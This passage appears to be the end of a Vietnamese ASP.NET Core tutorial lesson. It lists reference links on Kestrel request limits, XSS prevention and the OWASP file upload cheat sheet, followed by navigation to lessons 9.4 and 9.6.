- [Kestrel request limits](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/servers/kestrel/options)
- [Prevent Cross-Site Scripting (XSS)](https://learn.microsoft.com/en-us/aspnet/core/security/cross-site-scripting)
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)

## Điều hướng

- **Bài trước:** [9.4 — Pagination, Filtering, Sorting](9.4-pagination-filtering-sorting.md)
- **Bài tiếp theo:** [9.6 — Rate Limiting (.NET 7+)](9.6-rate-limiting.md)
- **Về module:** [Trang mục lục](README.md)
